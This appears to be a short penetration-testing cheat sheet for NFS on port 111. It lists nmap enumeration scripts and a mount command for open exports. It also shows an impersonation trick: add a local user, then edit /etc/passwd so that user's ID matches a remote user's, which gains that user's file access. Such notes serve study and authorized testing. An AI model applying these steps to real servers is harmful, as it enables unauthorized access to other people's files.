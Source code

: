 # 111 - NFS

`ls -l /usr/share/nmap/scripts/nfs*` or `nmap -p 111 --script nfs* <target>`

`mount -o nolock <target>:/<dir> ./nfs` mounting open nfs to 'nfs' in current directory

We can change our UUID to match UUID of remote user:

`adduser pwn`

`sed -i -e 's/<pwn users uuid>/<remote user uuid>/g' /etc/passwd` 

